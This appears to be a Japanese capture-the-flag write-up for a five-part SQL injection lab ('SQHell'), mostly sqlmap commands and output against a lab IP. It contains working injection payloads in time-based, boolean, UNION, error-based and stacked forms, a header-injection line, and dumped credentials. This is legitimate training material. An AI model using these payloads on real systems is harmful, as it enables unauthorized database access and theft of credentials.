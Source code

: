 #### 1
```
sqlmap -r s.req -p username --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---------- snip ----------

[23:28:31] [INFO] parsing HTTP request from 's.req'
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=name' AND (SELECT 9451 FROM (SELECT(SLEEP(5)))Fanc) AND 'BhIX'='BhIX&password=pass
---

---------- snip ----------

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
```
![image](https://user-images.githubusercontent.com/6504854/234910802-dc397064-7469-494b-bd79-717b1d183642.png)



#### 2
Hintを読むとIPを記録してるとかいてある。X-forwarded-forを追加したところ、Sleepがきいてる。

```
X-Forwarded-For:127.0.0.1';select+sleep(3);#
```

```
sqlmap --dbms mysql --headers="X-forwarded-for:127.0.0.1" -u http://10.10.56.57/terms-and-conditions --dump --risk 1 --level 1
        ___
       __H__                                                                                    
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                        
|_ -| . [)]     | .'| . |                                                                       
|___|_  [.]_|_|_|__,|  _|                                                                       
      |_|V...       |_|   https://sqlmap.org                                                    

---------- snip ----------
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2673 FROM (SELECT(SLEEP(5)))VFMf) AND 'pUCP'='pUCP
---
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C------------------------------5} |
+----+---------------------------------------------+

```

#### 3
![image](https://user-images.githubusercontent.com/6504854/234926996-5433dd7a-c221-42da-ba16-760861ec12d1.png)

![image](https://user-images.githubusercontent.com/6504854/234927091-e49433eb-dd0d-439e-bf9e-a302d0df5fa8.png)

```
sqlmap --dbms mysql -u http://10.10.56.57/register/user-check?username=admin -p username --dump

---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 8387=8387 AND 'joNK'='joNK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5498 FROM (SELECT(SLEEP(5)))bqcH) AND 'uivi'='uivi
---
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:9------------------------------8} |
+----+---------------------------------------------+

```

#### 4
数値演算がうごく。
![image](https://user-images.githubusercontent.com/6504854/234930560-452e84c4-385f-4262-98eb-837e6c47d50f.png)
![image](https://user-images.githubusercontent.com/6504854/234930659-5a9c4fed-8472-45a9-b520-96a33b6714fd.png)

SQLmapでとれず。
```
┌──(kali🦝kali)-[~]
└─$ sqlmap -dbms mysql -u http://10.10.56.57/user?id=1 -p id --dump --flush-session

----------------- snip ------------------

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9655=9655

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6365 FROM (SELECT(SLEEP(5)))HOws)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8134 UNION ALL SELECT CONCAT(0x717a786a71,0x486a4c706e684179424c69766c464b55436e55684b55734c685273484843714e73545a4d75767458,0x71766a6a71),NULL,NULL-- -
---
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```
usersテーブルは3カラムでflagはない。union selectを元にたぶんflagテーブルかフィールドflagを含むテーブルがあるのではというあてずっぽうでガチャガチャする。

![image](https://user-images.githubusercontent.com/6504854/234960030-1ab47f3a-d563-4c3d-8c07-c497bffbce08.png)

この問題が一番難しく、答え見て修正した。

#### 5
コメントとSleepがきく。

![image](https://user-images.githubusercontent.com/6504854/234930133-23f86b71-c999-4987-a9b1-5c10609180b7.png)

![image](https://user-images.githubusercontent.com/6504854/234930304-0cae3595-d827-4e88-aec1-7a0a6f680333.png)

```
$ sqlmap --dbms mysql -u http://10.10.56.57/post?id=1 -p id --dump               
 
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9968=9968

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1 AND GTID_SUBSET(CONCAT(0x716a627871,(SELECT (ELT(7296=7296,1))),0x7176767a71),7296)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1979 FROM (SELECT(SLEEP(5)))kSmf)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-6989 UNION ALL SELECT NULL,NULL,CONCAT(0x716a627871,0x5a4348716f52576e476b675742424a5842636765504a416e676c624a4143455976787957414a4370,0x7176767a71),NULL-- -
---
Database: sqhell_5
Table: posts
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B------------------------------8} |
+----+---------------------------------------------+
```

まいどツールだのみ。

